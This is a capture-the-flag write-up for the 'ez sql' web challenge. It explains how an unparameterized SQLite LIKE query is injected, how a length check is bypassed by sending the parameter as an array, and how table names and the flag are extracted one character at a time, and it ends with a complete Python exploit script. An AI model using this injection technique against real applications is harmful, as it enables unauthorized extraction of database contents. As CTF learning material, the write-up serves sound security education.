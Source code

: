 # ez sql - Web
just your average sql challenge, nothing else to see here (trust)
https://ez-sql.tjc.tf/ 

## What type of web challenge is this?

The title suggests a sql injection, and a fairly easy one.

## Finding the goal.

After looking through the source code I notice that the flag is stored in a table
that consists of format "flag_" + random uuid V4.

```js
const flagTable = `flag_${uuid.v4().replace(/-/g, '_')}`;
db.run(`CREATE TABLE IF NOT EXISTS ${flagTable} (flag TEXT)`);
```
So our goal is:
1. Figure out where sql injection can happen.
2. Find flag table
3. Get the flag entry.

## Planning SQL Injection

There's not really much to this application than a search endpoint to find jokes.
So I noticed the query to find a joke wasn't paramterized.
I can recommend to learn about [sql paramterization](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html) if you don't know about it already.
It's very useful to recognize if an application is vulnerable to sql injection.

```js
db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows)
```

So here's the attack vector, but to be honest I didn't know what to do. 
I work as a full-stack developer, so I know sql from before but LIKE clause was still new to me.

I tried out [SQLMap](https://sqlmap.org/) to see if that was easy solution, but I wasn't really able to figure how to set it up. So instead I went my own way doing research.

I remember seeing the list of jokes, and came up with the idea of fetching each character.
There's probably an easier way, but at the moment this is where my mind came up with.

How can I make a query fetch one of the characters of the flag table?
Lets first just disassemble what a character is?

Computers works in bits, so how can we convert the character 'A' to something the computer understands. Numbers!
If we look at [ASCII code table](https://theasciicode.com.ar/), we can see that character 'A' is code 65.


## Making the SQL Query

So my idea is using SUBSTRING to fetch a character based of the index we give, and then convert it to ASCII/Unicode
> Note: Unicode is extension of ASCII, you can read more about it here. [What is Unicode?](https://home.unicode.org/about-unicode/)

We can then use the id to fetch a joke that has that exact id, and later use the same id to get the character back as a string.

Here's the query format I came up with:

```sql
'and id = unicode(substring(({query}), {index}, 1)) --
```

We first end the LIKE clause with `'`, and then tell that id needs to be the unicode of the character
we fetch from the query using `substring`.

### Getting the table name

Since the application is using sqlite we can use sqlite_master table to find names of other tables.
```sql
SELECT name FROM sqlite_master WHERE type='table' and tbl_name not like 'jokes'
```

So I came up with this simple query that fetches entries where type is table
and table name is not 'jokes'. 

After that we can do a simple select query with the table name we got.
```sql
SELECT flag from TABLE_NAME_HERE
```


### Anything else?
Lets go over the endpoint to see if there's more to the challenge.

```js
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) {
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```

I notice that the name length can't be longer than 6 characters.
Since the application is written in javascript we can easily bypass that check.

In javascript we have different types that has .length, and since we see no check for other types.
We can send name in as array, then we can have max 6 elements in the array.

I recommend reading about [Javascript data types](https://www.w3schools.com/js/js_datatypes.asp) if you aren't known with them. 

## Exploit script

Here's the script I made to get the flag.
I tested this first locally to make sure it worked.

And then it was just testing it on the remote to get the flag.

```python
from requests import get
import time

baseHost = "URL"

def charArrayToString(s):
    new = ""
    for x in s:
        new += x
    return new

def sqli(query, index):
    return f"'and id = unicode(substring(({query}), {index}, 1)) --"

def getCharFromReq(query):
    params = {
        'name': [query, ''],
        }
    req = get(f"{baseHost}/search", params=params)
    json = req.json()
    if (len(json) == 0):
        return 0
    return chr(req.json()[0]['id'])

def getDatabaseName():
    flagPart = []
    flagIndexes = range(0, 39)
    flagNameQuery = "SELECT name FROM sqlite_master WHERE type='table' and tbl_name not like 'jokes'"
    
    for x in flagIndexes:
        print(f"Current char:{x}")
        char = getCharFromReq(sqli(flagNameQuery, x + 6))
        if(char == 0):
            break
        print(char)
        flagPart.append(char)
        time.sleep(0.25)        
    print(flagPart)
    return 'flag_' + charArrayToString(flagPart)

def getFlag(tableName):
    flagPart = []
    flagIndexes = range(0, 40)
    flagNameQuery = f"SELECT flag FROM {tableName}"

    for x in flagIndexes:
        print(f"Current char:{x}")
        char = getCharFromReq(sqli(flagNameQuery, x))
        if(char == 0):
            break
        print(char)
        flagPart.append(char)
        time.sleep(0.25)        
    print(flagPart)
    return charArrayToString(flagPart)



flagTable = getDatabaseName()
print(f"Got database name: {flagTable}")
flag = getFlag(flagTable)
print(flag)
```

